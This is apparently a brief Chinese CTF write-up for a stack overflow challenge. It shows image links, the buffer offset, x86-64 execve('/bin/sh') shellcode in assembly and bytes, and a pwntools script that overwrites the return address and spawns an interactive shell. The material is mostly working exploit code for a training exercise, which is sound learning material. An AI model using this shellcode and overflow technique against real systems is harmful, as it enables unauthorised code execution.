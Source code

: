 ![img](https://my-md-1253484710.file.myqcloud.com/20190407140954.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190407144021.png)

偏移：`var void *buf @ rbp-0x10` shellcode可用空间：16+8=24

找shellcode https://www.exploit-db.com/

http://shell-storm.org/shellcode/

```plain text
.global _start
_start:
    # char *const argv[]
    xorl %esi, %esi

    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq $0x68732f2f6e69622f, %rbx

    # for '\x00'
    pushq %rsi

    pushq %rbx

    pushq %rsp
    # const char *filename
    popq %rdi

    # __NR_execve 59
    pushq $59
    popq %rax

    # char *const envp[]
    xorl %edx, %edx

    syscall
 */

/*
  gcc -z execstack push64.c

  uname -r
  3.19.3-3-ARCH
 */
 shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
```

```python
#coding:utf-8
from pwn import *
# context(log_level = 'debug',arch ='x64',os = 'linux' )
io = process('./shellcode')
# io = remote("47.106.212.155",10003)
shellcode =     "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
io.recvuntil('[')
buf_addr = io.recvuntil(']',drop=True)
buf_addr = int(buf_addr,16)
# print(buf_addr)
payload = "A"*24 + p64(buf_addr+32) + shellcode
# 32是24字节的填充数据长度加返回地址长度24+8
print payload
io.sendline(payload)
io.interactive()
```